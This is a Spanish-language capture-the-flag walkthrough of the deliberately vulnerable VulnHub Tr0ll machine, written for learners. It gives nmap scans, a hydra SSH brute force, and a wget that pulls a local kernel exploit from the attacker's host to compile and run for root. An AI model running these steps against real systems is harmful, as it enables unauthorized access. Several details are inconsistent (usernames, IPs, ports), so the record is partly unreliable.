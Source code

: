 ```yaml
---
title: "Tr0ll — Walkthrough"
author: "Pxlymxrph"
level: "Easy"
target: "VulnHub - Tr0ll"
url: "https://www.vulnhub.com/entry/tr0ll-1,100/"
date: 2025-10-05
tags: [ctf, vulnhub, linux, ssh, privesc, ftp, enum]
---
```


# Tr0ll — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — Tr0ll (link arriba)  
**Objetivo:** Obtener acceso root y encontrar la flag.
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró FTP (anon), SSH y HTTP.  
- FTP alberga un archivo .pcap. Wireshark muestra una dirección web  
- Fuerza bruta controlada con `hydra` sobre SSH → acceso `overflow`.  
- Encontré Kernel antiguo -> `searchsploit` cuenta con exploit para escalar privilegios
- Flags: root.

## 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.97**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.97` (confirma Linux).

![ip_discovery.png](Images/ip_discovery.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (21,22,80):

```bash
nmap -sCV -p21,22,80 192.168.1.97
```
![nmap_servs.png](Images/nmap_servs.png)

Resultados clave:
- 21/tcp FTP (anonymous)  
- 22/tcp SSH  
- 80/tcp HTTP  

## 3) Enumeración FTP
Ingreso con el usuario *anonymous* y encuentro un archivo `.pcap` y procedo a analizarlo con `wireshark`. Encuentro un directorio secreto en la web.

![ftp.png](Images/ftp.png)

![wireshark.png](Images/wireshark.png)

El nuevo directorio alberga un binario con nombre `roflmao`. Lo descargo y con ayuda de `strings` logro encontrar una pista.

```bash
strings roflmao -n 13
```

![roflmao.png](Images/roflmao.png)

## 4) Fuerza bruta con Hydra
La nueva ubicación alberga dos carpetas, cada una con una lista de palabras.

![0x085.png](Images/0x085.png)

Esto me lleva a pensar que se trata de posibles credenciales por lo que uso hydra para atacar el puerto 22.

```bash
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
```

![hydra.png](Images/hydra.png)

## 5) Acceso y enumeración local
Paso unos minutos buscando posibles vectores para escalar privilegios y en un punto la conexión se rompe y tengo que loguearme nuevamente en SSH.

![timeup.png](Images/timeup.png)

Aplico `uname -a` para listar la versión del Kernel y veo que es una versión muy desactualizada

## 6) Escalada a root
Con la versión del Kernel identificada, uso `searchsploit` para buscar un vector de ataque y escalar privilegios. Una vez identificado, lo descargo y monto un servidor en python para compartirlo a la máquina víctima.

![searchsploit.png](Images/searchsploit.png)

```bash
searchsploit -m 37292.c
python3 -m http.server
```

Habiendo traido el exploit a la máquina objetivo procedo a compilarlo y ejecutarlo para obtener acceso root. Me muevo al directorio root y encuentro la flag

```bash
wget http://192.168.1.80:8080/37292.c
gcc 37292.c -o escalada
chmod +x escalada
./escalada
```

![flag.png](Images/flag.png)

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.97 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.97
ftp 192.168.1.97
wireshark lol.pcap 2</dev/null & disown
strings roflmao -n 13
hydra -L which_one_lol.txt -P Pass.txt ssh://192.168.1.97
ssh renu@192.168.1.78
uname -a
searchsploit -m 37292.c
python3 -m http.server
gcc 37292.c -o escalada
```

## Conclusión
Tr0ll es un CTF que ayuda a familiarizarse con la metodología y las fases del pentesting; las vulnerabilidades son básicas por lo que es un buen ejercicio para quienes quieren empezar a adentrarse en el área.